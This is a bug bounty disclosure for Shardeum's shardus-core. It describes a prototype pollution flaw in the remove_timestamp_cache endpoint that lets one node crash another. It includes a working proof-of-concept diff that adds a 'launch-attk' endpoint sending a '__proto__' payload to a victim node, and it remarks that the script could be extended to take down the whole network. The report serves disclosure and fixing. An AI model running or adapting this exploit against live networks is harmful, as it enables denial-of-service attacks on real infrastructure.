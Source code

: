 
# remove_timestamp_cache prototype pollution leading crashed node

Submitted on Aug 13th 2024 at 18:17:14 UTC by @ZhouWu for [Boost | Shardeum: Core](https://immunefi.com/bounty/shardeum-core-boost/)

Report ID: #34476

Report type: Blockchain/DLT

Report severity: Critical

Target: https://github.com/shardeum/shardus-core/tree/dev

Impacts:
- Network not being able to confirm new transactions (total network shutdown)

## Description
## Description
In the @shardus/core source code repo, node store a cache of transaction timstamp. Other node will ask the cache, if it's a miss the node will create new tx timestamp cache object derived from payload of the request. Subsequently there's another endpoint named remove_timestamp_cache , presumebly to remove these cache. This endpoint is referencing properties in object injection from the element in the payload from the request. Which make it vulnearble to prototype pollution


## Vulnerability
This happen due to referencing the object properties from the payload of the request directly when trying to remove the cache in `remove_timestamp_cache` endpoint. The code is as follows

```
if (this.txTimestampCache[cycleCounter] && this.txTimestampCache[cycleCounter][txId]) {
```
This way of referencing the cache object to assigned value is dangerous, because the referenced element come straight from the request payload. Consider the following payload
```
{
  cycleMarker: "rndmStr",
  cycleCounter: "__proto__",
  txId: "hasOwnProperty"
}
```

This mean that the cache object will be referenced in the following way
```
this.txTimestampCache["__proto__"]["hasOwnProperty"]
```
Essentially overwriting the prototype of the cache object, and the `hasOwnProperty` method of the cache object. This is problematic because `hasOwnProperty` is polluted to be a literal string which in turns break the code of the victim when object iteration or objection check operations are done later down the stream.





## Proof of Concept
- Launch a network of legit nodes.
- Launch an attacker node with this patch applied to shardus/core
- Wait for the attacker node to go active

```diff

diff --git a/src/utils/nestedCounters.ts b/src/utils/nestedCounters.ts
index 3ebbb782..5fbe9796 100644
--- a/src/utils/nestedCounters.ts
+++ b/src/utils/nestedCounters.ts
@@ -5,6 +5,11 @@ import Crypto from '../crypto'
 import { isDebugModeMiddleware, isDebugModeMiddlewareLow } from '../network/debugMiddleware'
 import { getNetworkTimeOffset, shardusGetTime } from '../network'
 import { Utils } from '@shardus/types'
+import { InternalRouteEnum } from '../types/enum/InternalRouteEnum'
+import { getTxTimestampReq, serializeGetTxTimestampReq } from '../types/GetTxTimestampReq'
+import { deserializeGetTxTimestampResp, getTxTimestampResp } from '../types/GetTxTimestampResp'
+import * as crypto from "crypto"
+

 type CounterMap = Map<string, CounterNode>
 interface CounterNode {
@@ -32,6 +37,30 @@ class NestedCounters {
   }

   registerEndpoints(): void {
+
+    Context.network.registerExternalGet('launch-attk', async (req, res)=>{
+
+          const victim = req.query.victim as string
+
+          const node = Context.shardus.getNodeByPubKey(victim)
+
+          const cycleMarker = crypto.randomBytes(254).toString()
+
+          const cycleCounter = "__proto__"
+
+          const txId = "hashOwnProperty"
+
+          const payload = {
+            cycleMarker,
+            cycleCounter,
+            txId
+          }
+
+          const data = await Context.p2p.ask(node, "remove_timestamp_cache", payload, false)
+
+          res.send(data)
+    })
+
     Context.network.registerExternalGet('counts', isDebugModeMiddlewareLow, (req, res) => {
       profilerInstance.scopedProfileSectionStart('counts')


 ```
 - Send a request to the attacker node with the victim node pubkey as a query parameter
 - `GET http://localhost:1337/launch-attk?victim=<publickey>`
 - observe the logs, the node exit unCleanly, essentially killing the node.

 ## Impact
 This is pretty straightforward single node attack, the script can be modified to attack the whole network to kill the whole network.

